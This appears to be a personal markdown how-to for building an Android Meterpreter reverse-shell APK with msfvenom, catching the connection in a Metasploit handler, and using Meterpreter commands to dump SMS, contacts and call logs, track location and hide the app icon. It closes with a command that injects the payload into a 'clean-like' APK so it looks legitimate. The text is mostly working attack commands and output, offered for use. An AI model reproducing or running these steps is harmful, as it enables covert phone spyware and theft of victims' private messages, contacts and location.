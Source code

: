 ```yaml
---
tags: [msf, android]
---
```



## Require
- Make sure the android device can visit the host where msf is running

## Steps
1. write an `apk` by msf:
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 R>nixni.apk`
1. install `nixni.apk` on android device
1. exploit
	``` sh
	msf > use exploit/multi/handler
	msf > set payload android/meterpreter/reverse_tcp
	msf > set LHOST 192.168.0.107
	msf > set LPORT 4444
	msf > exploit
	```

1. Meterpreter 
	``` sh
	meterpreter > ?
	
	Android Commands
	================

			Command           Description
			-------           -----------
			activity_start    Start an Android activity from a Uri string
			check_root        Check if device is rooted
			dump_calllog      Get call log
			dump_contacts     Get contacts list
			dump_sms          Get sms messages
			geolocate         Get current lat-long using geolocation
			hide_app_icon     Hide the app icon from the launcher
			interval_collect  Manage interval collection capabilities
			send_sms          Sends SMS from target session
			set_audio_mode    Set Ringer Mode
			sqlite_query      Query a SQLite database from storage
			wakelock          Enable/Disable Wakelock
			wlan_geolocate    Get current lat-long using WLAN information
			
	```
	
1. do something funny ;>


## Notice
- The attack is weak cause modern phone has advance mechanisms to prevent attack happen. There is two obstacle that author meets, install alert with virus warning and permissoin ask before running commands. 
- The apk is more powerful if inject it to another clean-like apk, commands: `
msfvenom -x nixni.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -o clean-like.apk
 `, more information please ref the msf doc.
